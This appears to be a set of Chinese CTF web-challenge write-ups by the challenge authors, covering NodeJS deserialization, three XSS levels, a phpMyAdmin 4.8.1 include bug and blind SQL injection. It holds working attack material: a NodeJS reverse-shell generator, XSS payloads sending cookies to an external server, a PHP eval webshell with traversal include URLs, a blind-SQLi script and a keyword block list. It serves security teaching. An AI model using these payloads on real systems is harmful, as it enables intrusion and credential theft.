





# Web

## 你好呀

### 考查要点

1. NodeJS 反序列化

### 解题过程

1. 打开题目，F12 查看源码，在注释中可以发现在`/app.js.bak`处可以查看源码。
2. 查看源码之后，发现一处反序列化，考虑使用反序列化来进行代码执行。
3. 由于 NodeJS 的代码执行在后端执行，没有回显，此处有几种常见方式获得回显：DNS 解析，HTTP 请求，反向 Shell（由于 docker 只开放了一个端口，无法使用正向 Shell）。
4. DNS 解析，HTTP 请求的利用方法大家可以自行搜索，此处展示使用反向 shell 的方法。首先，需要生成一个 nodejs 的反向 shell，脚本如下：

```python
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print "[+] Encoding"
PAYLOAD = charencode(NODEJS_REV_SHELL)
print "eval(String.fromCharCode(%s))" % (PAYLOAD)
```

使用这个脚本可以生成一个反向 shell，然后只需要将这个反向 shell 放到 cookie 里。我们创建一个对象`y={rce : function (){}}`,将上面的程序生成的代码粘贴到花括号中，使用 serialize 方法对其进行序列化，得到的代码在函数后加上圆括号，使其能自动执行。效果如下：


## 三道 XSS 总括

- 此次比赛的三道 XSS 是本着不出脑洞的想法出的，题目本身没有绕太多圈圈，但是在比赛环境下没有考虑到资源占用过多和僵尸程序的情况，导致网页巨卡无比和不能打出 flag 的现象。此外，由于出题时各出题人没有协商 flag 格式的问题，我录入 docker 的时候 flag 格式就为`fl4g{}`，最后上题的时候又要求`scuctf{}`，可能坑了一些人，做题体验并不好，在这里表示抱歉
- 三道题都是同一个提交平台，使用子路径作为限制(推荐阅读：https://www.cnblogs.com/fsjohnhuang/archive/2011/11/22/2258999.html)，以达到三题分离但是又使用同一个 bot 的效果。其实在这里我还是挺怕出现简单题打到困难题的 flag 的非预期解（虽然心理上还是比较肯定不会出这种情况 XD）
- 所以，**三道题都是将包含打 cookie payload 的 url 交给提交平台，平台 robot 使用 firefox 去访问你提交的 url，从而获取到在 cookie 里的 flag**
- 吐槽：xss bot 真的坑，花了很长时间来调 bot，结果比赛的时候还是出问题。。。果然是从入坑到放弃:)  
  提交平台截图：
  

## 简单的 XSS

### 考察要点

1. XSS 基本概念
2. XSS 获取 cookie

### 解题过程

#### 试探和弹窗

1. 本题没有任何过滤，直接输出传入值，典型的 XSS 入门后台代码。
2. 首先，看到网页将传入的参数原样返回：
   
3. 输入简单的弹窗 payload:`?greet=<script>alert(document.domain)</script>`直接弹出 domain，可见此处有 XSS 漏洞：
   

#### 获取 flag

1. 首先，尝试将自己的 cookie 打到 xss 平台上。
   直接填入 payload:`?greet=%3Cimg/src=x%20onerror=%22a=%27http://120.78.185.175/xss/myxss?s=%27%2Bdocument.cookie;new%20Image().src=a%22%3E`，访问：
   
   看到成功打出 cookie：
   
2. 将 payload 输入提交页面获取 flag：
   
   注意要弹出以下窗口才说明 bot 成功访问了 url：
   
   查看 XSS 平台可以看到成功打到的 flag：
   

## 稍难一点的 XSS

- 本题灵感来源于一篇漏洞悬赏的实战 blog，我记不到具体出处了，就推荐一个[网站](https://pentester.land/list-of-bug-bounty-writeups.html)吧

### 考察要点

1. CSP
2. DOM XSS（Script Gadgets） 绕过 CSP
3. Angularjs

### 解题过程

- 本题在给出 hint 之后难度降低了，顺着思路走就行。

#### 试探和弹窗

1. 还是查看网页，发现这回有 CSP 策略了，其中有个点值得注意：CSP 对 sina 某域下放行:`*.sinaapp.com`：
   
   这个域下有啥好东西呢，这个域下有`lib.sinaapp.com`是个 CDN，可以直接引入 JS 库。于是就想起 17 年 blackhat 上的演讲：[Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)
2. 在该域下找到有 angularjs 的库，并且存在老版本的库:
   
   老版本的库没有安全过滤，可以达到绕过 CSP 的效果，payload 为：

```
<div ng-app>
{{constructor.constructor('alert(document.domain)')()}}
</div>
```

3. 构造弹窗 payload：`http://120.78.185.175:5000/hachp1/wuziqi/index.php??guest_name=%3Cscript%20src=http://lib.sinaapp.com/js/angular.js/angular-1.0.6/angular.min.js%3E%3C/script%3E%3Cdiv%20ng-app%3E{{constructor.constructor("alert(document.domain)")()}}%3C/div%3E`
   成功弹窗：
   

#### 获取 flag

1. 都已经弹窗了，接下来就好办了，类似第一题，直接上 payload：

```
http://120.78.185.175:5000/hachp1/wuziqi/index.php?guest_name=%3Cscript%20src=http://lib.sinaapp.com/js/angular.js/angular-1.0.6/angular.min.js%3E%3C/script%3E%3Cdiv%20ng-app%3E{{constructor.constructor("document.location='http://120.78.185.175/xss/myxss?c='%2Bdocument.cookie;")()}}%3C/div%3E
```

2. 拿到 flag：
   

## 更难的 XSS

### 考察要点

1. 原有的 script 标签可被之前插入的`<script>`破坏
2. 标签 name 可以通过 js 直接成为变量从而覆盖变量
3. 搜原题的能力:)

### 原题 WP

- 本题来源于 TCTF2018 的 bl0g 题
- 原题 WP 推荐
  https://lorexxar.cn/2018/04/05/0ctf2018-blog/

### 解题过程

#### 试探和弹窗

1. 进入网页，还是 CSP，但是更严格了：
   
2. 更改 payload，查看源代码，可以看到参数输出的两个位置：
   
   
3. 页面中的 JS 代码运行过程分析一下，最后一段源码将第一段源码中出现的连接 append 到网页后：
   
   
4. 观察可以发现，可控点一个在第一段代码前，一个则直接决定了 name_links 的索引。所以我们可以通过第一个可控点破坏第一段代码，第二段代码构造 name 为 name_links 的 form 标签，并直接通过 name_links 获取我们构造的标签的 id 值，并把值输出在页面上；此时，就可以将恶意 payload 注入网页。（可能逻辑有点晕，建议对照 TCTF 原题 WP 一起理解）
5. 最后，弹窗 payload 如下（需要注意的两点是，1. 只有标签原有的属性名才能成功获取到，所以这里使用的是 id 来获取；2. 在这里我过滤了除 form 外的其他标签，所以需要先闭合前面的 form 标签，原题的 WP 不能直接用）：

```
http://120.78.185.175:5000/hachp1/pintu/index.php?name=%22%3E%3Cscript%3E&ft_id=id%22%3E%3C/form%3E%3CForm+name%3Dname_links+id%3D%22%3Cscript%3Ealert(document.domain);%3C%2Fscript%3E%22%3E
```

弹窗如下：


#### 获取 flag

- 同第二题，都弹窗了，剩下的不用说了，打 flag：

```
http://120.78.185.175:5000/hachp1/pintu/index.php?name="><script>&ft_id=id"></form><Form+name%3Dname_links+id%3D"<script>document.location='http://120.78.185.175/xss/myxss?c='%2Bdocument.cookie;<%2Fscript>">
```

flag:


## 出题人寄语

- 最后，祝贺在比赛中打出三道题的大佬 XD，也希望没有打出来的同学们能学到一些东西，这样这三题的使命就完成了。

## 艾迪魔力转圈圈

这道题别看 400 多分在 Web 题里分是最高的，其实这也算一道送分题，实际难度大概 150 分左右
到最后只有四五个队伍做出来，还是有些感慨

题目提示了用户名是 scuctf，密码没给，这种情况都是弱口令，直接 BurpSuite 爆破一下 123456 就出来了

进去看到 PhpMyAdmin，没有全局权限，那就不可以写文件之类的，右边看到 PhpMyAdmin 版本为 4.8.1



然后搜一下这个版本的漏洞，发现一个后台 getshell 的漏洞

https://www.cnblogs.com/fox-yu/p/9209203.html

直接上最简单的做法，还有一个写入表内包含表文件的做法自己找找哈，原理一样~

```sql
select '<?php @eval($_GET[1]);?>';
```


然后包含一下 sess_cookie 文件

```
index.php?target=db_sql.php%3f/../../../../../../../../var/lib/php/sessions/sess_(你的cookie)
```


cookie 是 phpMyAdmin 的值

然后

```
index.php?target=db_sql.php%3f/../../../../../../../../var/lib/php/sessions/sess_(你的cookie)&1=system('ls /');
```



```
index.php?target=db_sql.php%3f/../../../../../../../../var/lib/php/sessions/sess_(你的cookie)&1=system('cat /fl444444g');
```


这道题到此为止~

## 来了老弟

这道题一开始是没人做出来的，但只有 80 分的题嘛，能难倒那里去呢？
这里使用第二个地址（俩地址一样）
给的地址只是 `http://47.96.138.65:45787/didi`

进去之后就一个腰子姐和 PDD，但是你们仔细观察 UR 里的变化了嘛？

你输入的是 `http://47.96.138.65:45787/didi`
进去变成了 `http://47.96.138.65:45787/didi/secret.php`

apache 默认的入口文件是 index.php 他却是出现的 secret.php，这不是有问题嘛

F12 一下看到 index.php 被 302 跳转了，并且 flag 就在下面的 Set-Cookie 中，这里我设置了 cookie 生效时间为 0.01 秒，且只容许对 index.php 生效，所以在其他网页里是看不到的


直接把 flag 的值 base64 解码一下就出来 flag 了
做题过程中看到有的同学直接
**scuctf\{U0NVQ1RGe3kwVV9qVXM3X25lRWRfY2FyM2Z1bH0%3D}**
提交了上来，其实就差最后一步了，有点可惜~

所以这道题其实很简单，就考个简单的抓包和看你细心程度，OK 下一道~

## BabySqli

这里放上源代码

**config.php**

```php
<?php
error_reporting(0);
$servername = "localhost";
$username = "root";
$password = "**********************";
$dbname = "scuctf";

function stop_hack($value){
    $pattern = "insert|delete|bool|extractvalue|rand|group|geometrycollection|multipoint|multipolygon|regexp|linestring|multilinestring|name_const|right|char|benchmark|polygon|char|rlike|concat|rpad|repeat|sleep|ascii|innodb|and|if|exp|updatexml|left|pow|concat_ws|group_concat|substr|join|floor|\.\.\/|\.\/|into|load_file|outfile|dumpfile|sub|hex|file_put_contents|fwrite|curl|system| |eval";

    $back_list = explode("|",$pattern);
    foreach($back_list as $hack){
        if(preg_match("/$hack/i", $value))
            die("$hack detected!Do not want to get flag!!<br>");
    }
    return $value;
}

?>
```

**index.php**

```php
<?php
include 'config.php';
error_reporting(0);
$conn = new mysqli($servername, $username, $password, $dbname);
if ($conn->connect_error) {
    die("连接失败: ");
}

$sql = "SELECT COUNT(*) FROM users";
$whitelist = array();
$result = $conn->query($sql);
if($result->num_rows > 0){
    $row = $result->fetch_assoc();
    $whitelist = range(1, $row['COUNT(*)']);
}
if (!empty($_GET['id'])){
    $id = stop_hack($_GET['id']);
    $sql = "SELECT * FROM users WHERE id=$id";

    if (!in_array($id, $whitelist)) {
        die("id $id is not in whitelist.");
    }

    $result = $conn->query($sql);
    if($result->num_rows > 0){
        $row = $result->fetch_assoc();

        foreach ($row as $key => $value) {
            if(preg_match("/scuctf{.+?}/i",$value)){
                die("scuctf is found!!");
            }
       }
        echo "<center><table border='5'>";
        foreach ($row as $key => $value) {
            echo "<tr><td><center>$key</center></td><br>";
            echo "<td><center>$value</center></td></tr><br>";
        }
        echo "</table></center>";
    }
    else{
        echo "what do you want do??";
    }
}
else{
    echo "Please input id!";
}
?>
```

**建表 sql 文件**

```sql
create database scuctf;
use scuctf;
create table users (
id int(6) unsigned auto_increment primary key,
name varchar(20) not null,
email varchar(30) not null,
salary int(8) unsigned not null );

INSERT INTO users VALUES(1,'GodHuang','GodHuang@scuctf.com',3000);
INSERT INTO users VALUES(2,'GodSun','GodSun@scuctf.com',4500);
INSERT INTO users VALUES(3,'CaiJiWo','CaiJiWo@scuctf.com',2700);
INSERT INTO users VALUES(4,'GodWu','GodWu@scuctf.com',10000);
INSERT INTO users VALUES(5,'GodPang','GodPang@scuctf.com',6000);

create table flag(guess varchar(20) not null,
fffffffl11lgg varchar(30) not null,
secert varchar(30) not null,
flag varchar(30) not null );
INSERT INTO flag VALUES('what happened?','scuctf{3q1i_i3_t0o_e43y}','I can not tell you!','I am not flag Hhhhhhh!!');
```

**过滤如下：**

```php
$pattern ="
insert|delete|bool|extractvalue|
rand|group|geometrycollection|multipoint|
multipolygon|regexp|linestring|
multilinestring|name_const|right|char|
benchmark|polygon|char|rlike|concat|rpad|
repeat|sleep|ascii|innodb|and|if|exp|
updatexml|left|pow|concat_ws|group_concat|
substr|join|floor|\.\.\/|\.\/|into|
load_file|outfile|dumpfile|sub|hex|
file_put_contents|fwrite|curl|system| |
eval";
```

这道题我出题的时候，参考了很多大牛的博客文章，关闭了报错提示和绝大部分时间盲注函数(可能有遗漏的)

但我却留下了 get_lock()函数

题目上线前，我把 or 和 and 正则匹配过滤了，导致不可以直接通过 information 来查询表和字段名

但上线后出了点问题，or 和 and 实际上没有过滤掉（这是第二天才发现的），并且最重要的是没有全字匹配，导致可以直接 select \* from flag 全查出来！于是赶紧下线，加入了正则匹配

```php
foreach ($row as $key => $value) {
    if(preg_match("/scuctf{.+?}/i",$value)){
        die("scuctf is found!!");
    }
}
```

不可以当前页面直接注入出来 scuctf{}整个字段了，只能盲注一个个跑了

所以我的整体思路是，通过子查询来不知字段名的情况下获得 fffffffl11lgg 的值
表名得自己猜，但 CTF 比赛中，一般都是 flag,user,ctf 之类的

子查询思路：
`https://nosec.org/home/detail/2245.html`

盲注具体方法很多，我 POC 采用的是 get_lock()函数
具体用法如下：
`https://xz.aliyun.com/t/2288`

（吐槽一下协会服务器性能好的一批，正则延迟注入秒回，延迟不了几秒)

但这里第二天发现 or 和 and 被放出来了，当时很惊讶，本打算改来着，但看到到第二天下午为止也没几个人做出来，就不打算改了，就当降低难度了

所以说这道题如果按我原先的出题思路来看的话，的确比较难，毕竟差不多当半个压轴的，但出了问题之后，难度低了很多，细心琢磨做一下的话，还是可以做出来的~

这里贴一下我原先的 poc 脚本，估计现在不可用了，新的 poc 可以看看做出来队伍的或者等我有时间写（最近太忙了~）

```python
import requests
import string

dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="

url = "http://47.96.138.65:45787/?id=1"
session = requests.session()

def flag():
    i = 1
    flag = ""
    while True:
        for j in dic:
            try:
                payoad = "/**/%26%26/**/mid((select/**/`2`/**/from/**/(select/**/1,2,3,4/**/" \
                         "union/**/select/**/*/**/from/**/flag)a/**/limit/**/1,1),{},1)='{}'/**/" \
                         "%26%26/**/get_lock('ddog',5)".format(i, j)
                url_all = url + payoad
                t = session.get(url=url_all, timeout=3).content
                print(t)
                if len(t) != 0:
                    print(("[*]Flag:" + flag).replace("#&+",""))
                    flag = flag + j
            except Exception:
                pass
        i = i + 1


if __name__ == "__main__":
    flag()
```

## 出题人寄语

总而言之，这次我出的题，除了 Sqli 有点小难以外其他两道题难度还是可以的，心态放好仔细做的话，接大多数人还是可以在这三道题拿到 480 分，对于我刚才提到的 BabySqli 的原有思路，大家可以自己搭建环境测试一下做题思路，这两天大家也做题辛苦了哈~
